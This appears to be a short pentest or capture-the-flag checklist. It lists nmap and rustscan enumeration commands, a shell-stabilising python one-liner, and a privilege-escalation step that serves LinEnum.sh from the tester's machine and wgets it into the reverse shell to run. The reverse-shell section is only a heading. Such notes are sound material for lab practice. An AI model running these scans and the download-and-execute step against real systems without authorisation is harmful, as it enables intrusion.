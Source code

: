 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
0. Stabalize shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`\
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server `python3 -m http.server 8080` to transfer the linEum.sh\
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh\
5.Give access. `chmod +x linEum.sh` and `./linEum -t` \
 

